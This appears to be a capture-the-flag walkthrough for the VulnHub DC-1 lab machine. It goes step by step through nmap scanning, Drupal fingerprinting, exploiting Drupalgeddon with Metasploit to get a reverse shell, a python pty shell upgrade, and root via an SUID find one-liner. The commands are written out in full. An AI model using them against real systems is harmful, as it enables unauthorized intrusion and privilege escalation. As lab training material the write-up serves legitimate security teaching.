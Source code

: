 # DC: 1 Walkthrough

## Preparation
1. Download DC-1.ova file ([DC-1.ova](https://download.vulnhub.com/dc/DC-1.zip))

1. Import the OVA file in the VirtualBox

1. Set the network adapter to Host-only Adapter
    * Attached to: **Host-only Adapter**
    ![Host-onlyAdapter](./img/dc-1-server_network.png)

1. Start the Potato virtual machine
    * Turn on the potato virtual machine from the VirtualBox  
    ![StartPotato](./img/dc-1-server_initial.png)  

1. Confirm the IP address of the Potato virtual machine from the attack virtual machine  
    * `sudo netdiscover -i enp0s3 -r 192.168.56.0/24`  
    ![netdiscover](./img/dc-1_server1.png)  
    ![PotatoIP-Address](./img/dc-1-server2.png)  
        * 192.168.56.100: DHCP Server
        * **192.168.56.104**: DC-1 Server

1. Set the DC-1 IP address to the environment variance  
    * `export IP=192.168.56.104`  

## Reconnaissance
1. Do portscan using Nmap  
    * `sudo nmap -sC -sV -Pn -p- $IP -oN nmap_result.txt`  
    ![nmap](./img/dc-1-server3.png)
        * -sC: Scan with default script
        * -sV: Show software name and the version
        * -Pn: Do not confirm communication before port scan (We have already confirmed the Potato IP address.)
        * -p-: Scan all ports (from 0 to 65535 ports)
        * -oN: Output the scan results to the specified file

1. As we see the nmap result, we can attempt to access of 22, 80, and 111 ports.  

## Initial Access
1. Access the HTTP service using ParrotOS browser    
    * Enter `http://192.168.56.104:80`  
    ![HTTP-Access](./img/dc-1-server4.png)  

1. Confirm exisiting the "robots.txt file" 
    * Enter `http://192.168.56.104/robots.txt`  
    ![Robot-txt](./img/dc-1-server5.png)  
        - "Disallow": Deny crawler access  

1. Access "/MAINTAINERS.txt
    * It implies the service uses Drupal version 7  
    ![MAINTAINERS-txt](./img/dc-1-server6.png)  

1. Use droopescan (CMS vulnerability scanner)
    * Set the target URL to the environment variance  
    `export URL="http://$IP:80/`  
    * Scan using droopescan  
    ![droopescan](./img/dc-1-server7.png)
        - 5 plugins
        - 2 theme
        - Possible versions (7.22 - 7.26)
        - Possible interesting URL (/user/login)

1. Investigate Exploits for Drupal
    * Access to the [Exploit Database](https://www.exploit-db.com/)  
    * Search exploitations for the following keywords  
    `drupal 7 remote`  
    ![Remote-Exploit](./img/dc-1-server8.png)  
        - Memorize the "**Drupalgeddon**"

## Execution
1. Start Metasploit
    * Try to attack with "Drupalgeddon" vulnerability using Metasploit  
    Enter `msfconsole`   

1. Search vulnerability
    * Enter `search type:exploit drupal`  
    ![drupal-exploit](./img/dc-1-server9.png)
        - Note "drupageddon" because it is a vulnerability for versions 7.0 to 7.31  

1. Set exploit module
    * Enter `use exploit/multi/http/drupal_drupageddon`  
    * Set the option  
    ![set-option](./img/dc-1-server10.png)  
        - RHOSTS: 192.168.56.104 (DC-1 server)
        - RPORT: 80 (As default is 80, we do not need to set it)
        - TARGETURI: / (As default is /, we do not need to set it)
        - LHOST: 192.168.56.101 (ParrotOS machine's IP address)

1. Execute the exploit module
    * Enter `run`  
    ![Execute-exploit](./img/dc-1-server11.png)  
        - Success to enter the "/var/www" directory in the DC-1 server
        - Found the flag file of "flag1.txt"

## Credential Access for general user
1. Confirm the flag1.txt file
    * We confirm the next hint from the file  
    ![flag1](./img/dc-1-server12.png)

1. Take control of the interactive shell
    * Use the pyt module of Python  
    ![python-shell](./img/dc-1-server13.png)  
        - Enter `shell`
        - Enter `which python`
        - Enter `python -c 'import pty; pty.spawn("/bin/bash")'`

1. Investigate the home directory files
    * Find useful information
    ![home-directory](./img/dc-1-server14.png)
        - Although ".bash_history" may have attack hints in the previous command histories, there is no permission for the general users
        - The "flag4.txt" file may also not be useful
        - Unfortunately, there are no useful information to the root

1. Investigate the SUID file
    * Searching the SUID file is a standard approach for server intrusion
    * `find / -perm -u=s -type f 2> /dev/null`  
    ![Search-SUID](./img/dc-1-server15.png)
        - `find /`: Begins the search from the root directory
        - `-perm -u=s`: Matches files with the SUID bit set for the user/owner
        - `-type f`: Limits results to regular files
        - `2> /dev/null`: Redirects error output to /dev/null, suppressing them from the console  

## Privilege Escalation
1. Utilize the find command
    * Example commands for stealing a shell using find command
        - `find . -exec /bin/sh -p \; quit`
    * As this time steal bash shell, enter the following command
    ![Use-find](./img/dc-1-server16.png)
        - Enter `which find`
        - Enter `/usr/bin/find . -exec /bin/bash -p \; -quit`
        - Return root prompt (#)

## Credential Access for root user
1. Open "thefinalflag" file
    * Move to "root" directory
    * Access the "thefinalflag.txt"
    ![final-flag](./img/dc-1-server17.png)